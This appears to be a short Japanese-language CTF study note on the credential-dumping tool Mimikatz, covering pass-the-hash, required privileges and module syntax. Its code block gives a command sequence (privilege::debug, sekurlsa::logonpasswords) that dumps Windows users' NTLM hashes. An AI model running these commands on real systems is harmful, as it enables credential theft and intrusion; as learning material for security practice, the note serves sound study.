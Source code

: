 # Hack Kerberos

## What's Mimikatz?
- 奇人**Benjamin Delpy**によって開発されたWindowsの認証情報をダンプできるツール
![alt text](image.png)
- もっと具体的に言うと、**NTLMハッシュの取得**、**Pass the Hash**攻撃、**Over the Pass**攻撃の実行といったことが可能！まさにスーパーはかあのスイス・アーミー・ナイフ。  

- ツールの実行はスタンドアローンのmimikatz.exeバイナリでも、カーネルモードで実行するmimidrv.sysでも、DLLのmimilib.dllでも、PowerShellから呼び出されるpowerkatz.dll出も可能。
- CTFならmimikatz.exeを使うことが多い。
- 実行するには**ローカル管理者権限**か**SYSTEM権限**、加えて**デバッグ権限**(SeDebugPrivilege)が必要。

## Syntacks of Mimikatz
文法を叩きこませる！  
```
例：
.\mimikatz.exe  # <=実行してmimikatzのセッションを開始
privilege::debug  # <=デバッグ権限へのエスカレーション
sekurlsa::logonpasswords # <=ユーザのNTLMハッシュなどをダンプして取得
exit
```
つまり...
```
<modulename>::<commandname> arguments...
```
